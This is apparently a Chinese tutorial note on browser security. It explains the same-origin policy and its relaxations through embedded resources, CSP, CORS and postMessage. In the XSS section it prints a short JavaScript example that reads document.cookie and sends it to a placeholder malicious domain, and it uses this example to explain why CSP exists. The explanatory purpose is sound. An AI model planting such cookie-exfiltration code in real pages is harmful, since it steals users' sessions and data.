 # 同源策略

[TOC]

浏览器安全可以分为三大块：

- Web页面安全
- 浏览器网络安全
- 浏览器系统安全

为什么需要保证安全：在没有安全保障的Web世界中，我们是没有隐私的，因此需要安全策略来保障我们的隐私和数据的安全

页面中最基础、最核心的安全策略：“**同源策略(Same-origin policy)**”

## 什么是同源策略

如果两个URL的**协议**、**域名**和**端口**都相同，我们就称这两个URL同源

浏览器默认两个相同的源之间是可以互相访问资源和操作DOM的。**两个不同的源之间若想要互相访问资源或者操作DOM，那么就会由一套基础的安全策略的制约，我们把这称为同源策略**。

- DOM层面：同源策略限制了来自不同源的JavaScript脚本对当前DOM对象读和写的操作
- 数据层面：同源策略限制了不同源的站点读取当前站点的Cookie、IndexDB、LocalStorage等数据
- 网络层面：限制了XMLHttpRequest等方式将站点的数据发送给不同源的站点。

## 安全和便利性的权衡

让不同源之间绝对隔离，无疑是最安全的措施，但这也会使得Web项目难以开发和使用，因此需要在这之间做出权衡，出让一些安全性来满足灵活性；而出让安全性又带来了很多安全问题，最典型的就是XSS攻击和CSRF攻击

浏览器出让了同源策略的那些安全性

### 网页中可以嵌入第三方资源

Web是开放的，可以接入任何资源，而同源策略要让一个页面的所有资源都来自于同一个源，也就是要将页面所有的HTML、CSS、JavaScript、图片等文件都部署在同一台服务器上，但是就违背了Web的初衷，也带了诸多限制。

最初的浏览器是这次hi外部引用资源文件的，不过带来了很多问题。例如：浏览器的首页被一些恶意程序劫持，劫持的途径很多，其中最常见的恶意程序就是通过各种途径往HTML文件中插入恶意脚本。

HTML文件的数据到达浏览器时，浏览器是无法区分被插入的文件是恶意的还是正常的，这样恶意的脚本寄生在页面之中，当页面启动时，它就可以修改用户的搜索结果、改变一些内容的连接指向等等

除此之外，还能将页面的敏感数据，如Cookie、IndexDB、LocalStorage等数据通过XSS的手段发送给服务器。具体来说就是不小心点击了页面中的一个恶意链接时，恶意JavaScript代码可以读取页面数据并将其发送给服务器

```js
// 恶意获取Cookie并发送给恶意服务器
function onClick(){
    let url = `http://unsafeDomain?cookie=${document.cookie}`;
    open(url);
}
onClick();
```

上面是一个典型的XSS攻击，为了解决XSS攻击，浏览器引入了内容安全策略，称为CSP。

"**CSP的核心思想是让服务器决定浏览器能够加载那些资源，让服务器决定浏览器是否能执行内联JavaScript代码**"。通过这些手段可以大大减少XSS攻击。

### 跨站资源共享和跨文档消息机制

“**跨站资源共享（CORS）**”

“**跨文档消息机制**”：通过window.postMessage的JavaScript接口来和不同源DOM进行通信。